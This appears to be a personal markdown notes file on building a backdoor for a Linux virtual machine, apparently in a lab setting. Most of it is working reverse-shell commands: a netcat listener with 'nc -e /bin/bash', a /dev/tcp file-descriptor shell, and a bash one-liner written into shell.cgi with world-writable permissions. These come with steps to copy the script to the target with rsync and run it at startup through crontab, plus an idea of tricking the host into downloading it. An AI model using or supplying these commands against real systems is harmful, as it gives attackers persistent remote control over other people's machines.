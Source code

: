 # Notes for the backdoor
Will most likely need to make use of crontab so the file automatically gets executed at a time or at startup. 

# Netcat method
This creates a reverse shell with netcat
HM = Host machine
VM = Virtual machine that is being attacked

HM
1. HM setup listening port: nc –l 4444
2. Get the hosts ip address: ifconfig | grep --color netmask
	it will be something like 192.168.x.xxx

3. gain remote access to the VM, via ssh
4. On Linux VM, setup the reverse shell with hosts IP address: nc 192.168.x.xxx -e /bin/bash

5. on HM type any bash command and hit enter


# TODO
how to set the permission of the executable shell script on the host machine?
	maybe just by getting the host to click download.
	
rsync --chmod=u+rwx,g+rwx,o+rwx /path/to/file server:/path/to/file


# without Netcat installed
0<&196;										// open file descriptor and redirect it to stdin. 196 is a random number
exec 196<>/dev/tcp/192.168.0.xxx/4444; 		// read-write file descriptor,  https://unix.stackexchange.com/questions/164391/how-does-cat-file-work
// sh <&196 receive commands from host machine, display output on target
// sh >&196 receive commands on target, redirect output to the host machine
// sh 2>&196 redirect stderr to the host
sh <&196 1>&196 2>&196 		// allow commands output to display on the target machine

0<&196;exec 196<>/dev/tcp/192.168.0.xxx/4444; sh <&196 1>&196 2>&196

# even better method
https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3
// >& <location> redirects stdout and stderr to be redirected to <location>
// 0<&1 redirects std in back to the shell
/bin/bash -i >& /dev/tcp/192.168.0.xxx/4444 0<&1

rsync -av shell.cgi sparky@kali:/home/sparky/desktop



# create the script, set permissions
echo "/bin/bash -i >& /dev/tcp/192.168.0.xxx/4444 0<&1" > shell.cgi; chmod 777 shell.cgi

# copy the script to the remote machine
rsync -av shell.cgi sparky@kali:/home/sparky/desktop

# now the remote machine just needs to run, sounds like Crontab could do this, or https://serverfault.com/questions/364040/how-to-execute-a-process-on-remote-linux-machine-without-ssh
./shell.cgi
